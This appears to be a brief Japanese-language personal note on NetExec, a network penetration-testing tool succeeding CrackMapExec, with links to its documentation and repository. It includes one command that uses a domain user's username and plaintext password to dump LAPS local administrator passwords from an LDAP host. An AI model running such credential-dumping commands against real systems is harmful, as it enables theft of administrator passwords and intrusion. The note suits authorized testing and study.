 # NetExec
[ドキュメント](https://www.netexec.wiki/getting-started/using-kerberos)  
[ギッハブ](https://github.com/Pennyw0rth/NetExec)

## 概要
crackmapexecがあまり保守されなくなったぽいのでそれの後継的なポジ。  
大規模ネットワークのセキュリティ評価を自動化するのに役立つペンテツールっぽい。  
ドキュメントちゃんとしてていい。

## コマンド集
1. LAPS読み取りの権限を持つドメインユーザの認証情報を使ってLAPSパスワードをダンプする。
```
nxc ldap 192.168.142.122 -u fmcsorley -p CrabSharkJellyfish192 -M laps
```